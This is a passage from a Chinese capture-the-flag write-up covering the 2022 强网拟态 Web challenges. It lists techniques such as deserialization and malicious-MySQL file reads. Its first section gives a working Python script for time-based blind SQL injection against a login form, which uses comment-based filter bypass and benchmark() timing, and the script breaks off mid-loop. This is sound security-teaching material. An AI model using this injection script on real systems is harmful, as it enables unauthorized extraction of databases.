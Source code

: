 2022强网拟态WP-Web(ALL)
===================

![QQ图片20221107004850](https://shs3.b.qianxin.com/attack_forum/2022/11/attach-0c39972cf53d4f79b6be734b957444586eea3528.jpeg)

这次的强网拟态Web一共6个题目的全部做题记录WP如下，感觉basename的解析特点， `RMIConnector#connect`函数进行二次反序列化，jdbc连接Mysql恶意服务任意文件读取，已赋值的键值对污染这几个点都挺有意思的，详细的知识点利用看下面WP，每个题都已经记录的很详细了。

popsql
------

开局一个登录界面, 测试确认用户名为admin的时候才会执行sql注入的语句, 所以username固定为admin, 在passowrd参数构造sqlkl注入语句进行`时间盲注`

fuzz后发现`union join ;`都被ban了

```python
import string
import time

import requests

# for i in range(10):
#     # 0稳定子啊4.7~5.4
#     # 1稳定在1~2之间
#     # 2稳定在0.1~0.5
#     sql=f"select case 0 when 0 then benchmark(511111111,1) when 1 then benchmark(311111111,1) else 2 end"
#     password = f"xxx'or({sql.replace(' ', '/**/')})or'"
#     data = {"username": "admin","password": password}
#     print(data["password"])
#     res = requests.post(url, data=data)
#     print(res.elapsed.total_seconds())
# print("========")
# exit()

def get_str(s):
    end="0x"
    for c in s:
        end+=str(hex(ord(c)))[2::]
    return end

def getDatabase():  # 获取数据库名
    global host
    ans = ''
    for i in range(1, 1000):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            test_str=get_str(ans+chr(mid))
            print(ans+chr(mid),(low,mid,high))
            # usErs,FL49IsH3rE  CtFGAME
            # 5.7.39
            # sys.schema_table_statistics
            # query="select group_concat(table_schema) from sys.schema_table_statistics"
            # query = "select group_concat(table_schema) from sys.x$ps_schema_table_statistics_io"
            query = "select group_concat(f1aG123) from Fl49ish3re"
            sql = f"select case STRCMP(({query}),{test_str}) when 0 then 0 when 1 then 1 else benchmark(511111111,1) end"
            password = f"xxx'or({sql.replace(' ','/**/')})or'"
            # print(password)
            data = {"username": "admin", "password": password}
            res = requests.post(url, data=data)
            if "Password error" not in res.text:
                print("CHECK!!!!!!\n",res.text)
            if res.elapsed.total_seconds() > 2:
```